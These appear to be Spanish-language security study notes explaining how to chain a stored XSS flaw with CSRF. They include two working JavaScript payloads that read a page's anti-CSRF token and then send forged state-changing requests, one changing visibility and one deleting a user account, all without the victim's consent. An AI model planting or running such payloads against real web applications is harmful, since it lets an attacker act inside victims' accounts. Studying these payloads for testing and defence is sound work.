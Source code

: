 ![[Pasted image 20230127143407.png]]

## CHAINING XSS + CSRF

Las solicitudes maliciosas entre sitios están fuera de la ecuación debido a las protecciones del mismo origen/mismo sitio. Todavía podemos realizar un ataque CSRF a través de la vulnerabilidad XSS almacenada que existe. Específicamente, aprovecharemos la vulnerabilidad XSS almacenada para emitir una solicitud de cambio de estado contra la aplicación web. ¡Una solicitud a través de XSS omitirá cualquier protección del mismo origen/mismo sitio ya que se derivará del mismo dominio!

Payload XSS:

```javascript
<script>
//primera peticion para obtener el CSRF token
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
	//recuperacion del CSRF Token
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];

	//segunda peticion para realizar el Ataque CSRF pasando el Anti CSRF-Token
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```

Como estamos aprovechando una vulnerabilidad XSS almacenada, al momento de ejecutarse o llamarse realizara una accion dentro de la cuenta del usuario (**Si se encuentra logueado**) sin su consentimiento.

**OTRO EJEMPLO**

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/delete/mhmdth.rdyy@example.com',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/delete', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token);
};
</script>
```
